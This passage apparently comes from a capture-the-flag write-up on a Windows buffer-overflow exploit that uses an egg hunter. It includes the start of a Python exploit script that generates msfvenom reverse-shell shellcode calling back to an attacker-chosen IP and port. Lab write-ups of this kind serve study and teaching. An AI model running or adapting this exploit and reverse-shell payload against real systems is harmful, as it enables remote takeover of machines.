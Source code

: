 `msfvenom` stages reverse meterpreter is 351 bytes. Staged reverse shell is 341. The unstaged shell is down to 324. Still, none of these are close to small enough to fit here.

This is where I’ll use an Egg Hunter. An Egg Hunter is a small bit of code that will search through memory for a specific string, and then jump to the code just after it. There are many pocs out there. `mona` has one built in, if I run `!mona egg -t 0xdf`:

![1554146083825](https://0xdfimages.gitlab.io/img/1554146083825.png)

I can use the 32-byte output there as my shellcode. But I still need a way to get my full payload into memory. The good news is that the memory isn’t reset or cleared between requests. So I can send a POST request with my payload, and it will likely still be in memory on my next request.

## Exploit

After a bunch of trial and error, I ended up with this script (it’s not my most beautiful work):

```

  1 #!/usr/bin/env python
  2 
  3 import os
  4 import subprocess
  5 import sys
  6 
  7 from pwn import *
  8 from time import sleep
  9 
 10 context(terminal=['tmux', 'new-window'])
 11 context(os='windows', arch="i386")
 12 
 13 
 14 def clean_and_exit(msg, files):
 15     print(msg)
 16     for f in files:
 17         try:
 18             os.remove(f)
 19         except:
 20             pass
 21     sys.exit()
 22 
 23 
 24 if len(sys.argv) != 5:
 25     clean_and_exit("%s [target] [target port] [callback ip] [callback port]" % (sys.argv[0]), [])
 26 
 27 target = sys.argv[1]
 28 port = sys.argv[2]
 29 cb_ip = sys.argv[3]
 30 cb_port = sys.argv[4]
 31 
 32 # Generate Shellcode 
 33 msfvenom_string = 'msfvenom -p windows/shell_reverse_tcp LHOST=%s LPORT=%s EXIT_FUNC=THREAD -a x86 --platform windows -b "\\x00\\x0a\\x0d" -f python -v shellcode -o sc.py' % (cb_ip, cb_port)
 34 print("[*] Generating shellcode:\n    %s" % msfvenom_string)
 35 p = subprocess.Popen(msfvenom_string.split(' '), stdout=subprocess.PIPE, stderr=subprocess.PIPE)
 36 out, err = p.communicate()
 37 
 38 try:
 39     if "Error" in err:
 40         raise Exception("[-] Unable to generate shellcode\n    %s" % err)
 41     from sc import shellcode
 42 except (NameError, Exception) as e:
 43     clean_and_exit(e.message, ['sc.py', 'sc.pyc'])
```